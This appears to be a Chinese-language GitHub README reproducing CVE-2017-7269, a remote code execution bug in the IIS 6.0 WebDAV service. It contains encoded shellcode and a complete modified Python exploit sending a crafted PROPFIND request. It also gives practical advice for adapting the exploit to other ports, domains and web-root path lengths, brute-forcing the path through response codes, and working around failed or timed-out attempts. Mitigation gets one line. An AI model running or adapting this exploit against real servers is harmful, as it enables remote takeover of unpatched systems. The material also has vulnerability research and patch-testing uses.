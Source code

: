 ## RCE-CVE-2017-7269

Microsoft Windows Server 2003 R2中的Internet信息服务（IIS）6.0中的WebDAV服务中的ScStoragePathFromUrl函数中的缓冲区溢出允许远程攻击者通过以"If：<http：//"开头的长标头执行任意代码PROPFIND请求。

影响范围：
在Windows 2003 R2（Microsoft(R) Windows(R) Server 2003, Enterprise Edition Service Pack 2）上使用IIS 6.0并开启WebDAV扩展。


复现：
CVE作者给出的[exp](https://github.com/edwardz246003/IIS_exploit/blob/master/exploit.py) 计算机弹弹弹！！！
用python2 运行，结果如下。
![CVE-2017-7269-01](./pic/CVE-2017-7269-01.png)
任务管理器开启了calc.exe进程，因为计算器是网络服务权限打开的，所以我们在桌面上看不见。

这个漏洞有几个需要注意的地方，如下。

由于作者提供的Exp执行之后就卡在那里了，因此不适合用弹计算机的shellcode进行测试，网上找了个dalao的回显shellcode来测试。

首先将上图中python2 IDE运行时产生的Raw类型的HTTP数据包copy保存至记事本中，然后在Burp Repeater模块 Paste from file。

将shellcode更换成如下：
```
VVYA4444444444QATAXAZAPA3QADAZABARALAYAIAQAIAQAPA5AAAPAZ1AI1AIAIAJ11AIAIAXA58AAPAZABABQI1AIQIAIQI1111AIAJQI1AYAZBABABABAB30APB944JBRDDKLMN8KPM0KP4KOYM4CQJIOPKSKPKPTKLITKKQDKU0G0KPKPM00QQXI8KPM0M0K8KPKPKPM0QNTKKNU397O00WRJKPSSI7KQR72JPXKOXPP3GP0PPP36VXLKM1VZM0LCKNSOKON2KPOSRORN3D35RND4NMPTD9RP2ENZMPT4352XCDNOS8BTBMBLLMKZOSROBN441URNT4NMPL2ERNS7SDBHOJMPNQ03LMLJPXNM1J13OWNMOS2H352CBKOJO0PCQFOUNMOB00NQNWNMP7OBP6OILMKZLMKZ130V15NMP2P0NQP7NMNWOBNV09KPM0A
```
结果：
![CVE-2017-7269-02](./pic/CVE-2017-7269-02.png)

CVE作者给出的Exp是在默认端口，默认域名，默认路径的情况下适用。

第一个需要注意的是端口和域名绑定问题：

当端口改变时，If头信息中的两个url端口要与站点端口一致，如下。
![CVE-2017-7269-03](./pic/CVE-2017-7269-03.png)

当域名改变时，If头信息中的两个url域名要与站点域名一致，且HOST头也要与站点域名一致。如下
![CVE-2017-7269-04](./pic/CVE-2017-7269-04.png)

不修改Host将返回502,如下
![CVE-2017-7269-05](./pic/CVE-2017-7269-05.png)

Note:
```
测试的时候凡是需要修改IIS配置的操作，修改完毕后都需要重启IIS，
或者在不超过禁用阈值的前提下结束w3wp进程。
```

第二个需要注意的是物理路径问题：

CVE作者提供的Exp是在 默认路径长度等于19(包括结尾的反斜杠)的情况下适用，IIS默认路径一般为：`c:\inetpub\wwwroot`

解决方法：

当路径长度小于19时需要对padding进行添加。
当路径长度大于19时需要对padding进行删除。

ROP和stackpivot前面的padding实际上为UTF8编码的字符，每三个字节解码后变为两个字节的UTF16字符，在保证Exp不出错的情况下，有0x58个字符是没用的。所以可以将前0x108个字节删除，换成0x58个a或b。

原exp 修改后如下：
``` python
# coding:utf-8
import socket  
sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)  
sock.connect(('192.168.124.129',8888))  
pay='PROPFIND / HTTP/1.1\r\nHost: www.lxhsec.com\r\nContent-Length: 0\r\n'
pay+='If: <http://www.lxhsec.com:8888/aaaaaaa'
pay+='aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa'
pay+='\xe6\xa9\xb7\xe4\x85\x84\xe3\x8c\xb4\xe6\x91\xb6\xe4\xb5\x86\xe5\x99\x94\xe4\x9d\xac\xe6\x95\x83\xe7\x98\xb2\xe7\x89\xb8\xe5\x9d\xa9\xe4\x8c\xb8\xe6\x89\xb2\xe5\xa8\xb0\xe5\xa4\xb8\xe5\x91\x88\xc8\x82\xc8\x82\xe1\x8b\x80\xe6\xa0\x83\xe6\xb1\x84\xe5\x89\x96\xe4\xac\xb7\xe6\xb1\xad\xe4\xbd\x98\xe5\xa1\x9a\xe7\xa5\x90\xe4\xa5\xaa\xe5\xa1\x8f\xe4\xa9\x92\xe4\x85\x90\xe6\x99\x8d\xe1\x8f\x80\xe6\xa0\x83\xe4\xa0\xb4\xe6\x94\xb1\xe6\xbd\x83\xe6\xb9\xa6\xe7\x91\x81\xe4\x8d\xac\xe1\x8f\x80\xe6\xa0\x83\xe5\x8d\x83\xe6\xa9\x81\xe7\x81\x92\xe3\x8c\xb0\xe5\xa1\xa6\xe4\x89\x8c\xe7\x81\x8b\xe6\x8d\x86\xe5\x85\xb3\xe7\xa5\x81\xe7\xa9\x90\xe4\xa9\xac'
pay+='>'
pay+=' (Not <locktoken:write1>) <http://www.lxhsec.com:8888/bbbbbbb'
pay+='bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb'
pay+='\xe5\xa9\x96\xe6\x89\x81\xe6\xb9\xb2\xe6\x98\xb1\xe5\xa5\x99\xe5\x90\xb3\xe3\x85\x82\xe5\xa1\xa5\xe5\xa5\x81\xe7\x85\x90\xe3\x80\xb6\xe5\x9d\xb7\xe4\x91\x97\xe5\x8d\xa1\xe1\x8f\x80\xe6\xa0\x83\xe6\xb9\x8f\xe6\xa0\x80\xe6\xb9\x8f\xe6\xa0\x80\xe4\x89\x87\xe7\x99\xaa\xe1\x8f\x80\xe6\xa0\x83\xe4\x89\x97\xe4\xbd\xb4\xe5\xa5\x87\xe5\x88\xb4\xe4\xad\xa6\xe4\xad\x82\xe7\x91\xa4\xe7\xa1\xaf\xe6\x82\x82\xe6\xa0\x81\xe5\x84\xb5\xe7\x89\xba\xe7\x91\xba\xe4\xb5\x87\xe4\x91\x99\xe5\x9d\x97\xeb\x84\x93\xe6\xa0\x80\xe3\x85\xb6\xe6\xb9\xaf\xe2\x93\xa3\xe6\xa0\x81\xe1\x91\xa0\xe6\xa0\x83\xcc\x80\xe7\xbf\xbe\xef\xbf\xbf\xef\xbf\xbf\xe1\x8f\x80\xe6\xa0\x83\xd1\xae\xe6\xa0\x83\xe7\x85\xae\xe7\x91\xb0\xe1\x90\xb4\xe6\xa0\x83\xe2\xa7\xa7\xe6\xa0\x81\xe9\x8e\x91\xe6\xa0\x80\xe3\xa4\xb1\xe6\x99\xae\xe4\xa5\x95\xe3\x81\x92\xe5\x91\xab\xe7\x99\xab\xe7\x89\x8a\xe7\xa5\xa1\xe1\x90\x9c\xe6\xa0\x83\xe6\xb8\x85\xe6\xa0\x80\xe7\x9c\xb2\xe7\xa5\xa8\xe4\xb5\xa9\xe3\x99\xac\xe4\x91\xa8\xe4\xb5\xb0\xe8\x89\x86\xe6\xa0\x80\xe4\xa1\xb7\xe3\x89\x93\xe1\xb6\xaa\xe6\xa0\x82\xe6\xbd\xaa\xe4\x8c\xb5\xe1\x8f\xb8\xe6\xa0\x83\xe2\xa7\xa7\xe6\xa0\x81'
shellcode='VVYA4444444444QATAXAZAPA3QADAZABARALAYAIAQAIAQAPA5AAAPAZ1AI1AIAIAJ11AIAIAXA58AAPAZABABQI1AIQIAIQI1111AIAJQI1AYAZBABABABAB30APB944JBRDDKLMN8KPM0KP4KOYM4CQJIOPKSKPKPTKLITKKQDKU0G0KPKPM00QQXI8KPM0M0K8KPKPKPM0QNTKKNU397O00WRJKPSSI7KQR72JPXKOXPP3GP0PPP36VXLKM1VZM0LCKNSOKON2KPOSRORN3D35RND4NMPTD9RP2ENZMPT4352XCDNOS8BTBMBLLMKZOSROBN441URNT4NMPL2ERNS7SDBHOJMPNQ03LMLJPXNM1J13OWNMOS2H352CBKOJO0PCQFOUNMOB00NQNWNMP7OBP6OILMKZLMKZ130V15NMP2P0NQP7NMNWOBNV09KPM0A'
pay+=shellcode
pay+='>\r\n\r\n'
print pay
sock.send(pay)  
data = sock.recv(80960)  
print data 
sock.close
```
执行：
![CVE-2017-7269-07](./pic/CVE-2017-7269-07.png)

当路径长度小于19时，如下，需要增加12个a，b
![CVE-2017-7269-08](./pic/CVE-2017-7269-08.png)

![CVE-2017-7269-10](./pic/CVE-2017-7269-10.png)

而实际中路径常常大于19，需要对padding进行删除。

当路径为`c:\www\`的时候，a有107个，加起来有114个，除去盘符有111个字符，所以可以把Exp的padding增加至111，并逐次进行减少。当长度不匹配时返回500，成功时返回200，通过爆破方式得到物理路径长度。
成功:
![CVE-2017-7269-11](./pic/CVE-2017-7269-11.png)

失败:
![CVE-2017-7269-09](./pic/CVE-2017-7269-09.png)

当然如果能得到物理路径，则用114减去物理路径长度（包括末尾的反斜杠）就是所需的padding长度。


第三个需要注意的是，超时问题。
当exp执行成功一段时间之后（大概十分钟到二十分钟左右，其间无论有无访问），再对这个站点执行exp永远不会成功，同时返回400。

解决方法：
1.等待w3wp重启。
2.测试旁站（因为每个池都是独立的w3wp进程，换一个可能在其他池的旁站进行尝试）


第四个需要注意的是，多次执行错误shellcode

多次执行错误的shellcode会覆盖很多不该覆盖的代码，从而导致正确的shellcode执行时也返回500，
提示信息为：参数不正确，也可能什么都不返回。

![CVE-2017-7269-06](./pic/CVE-2017-7269-06.png)

解决方法：
1.等待w3wp重启。
2.测试旁站（因为每个池都是独立的w3wp进程，换一个可能在其他池的旁站进行尝试）

### 修复建议
关闭 WebDAV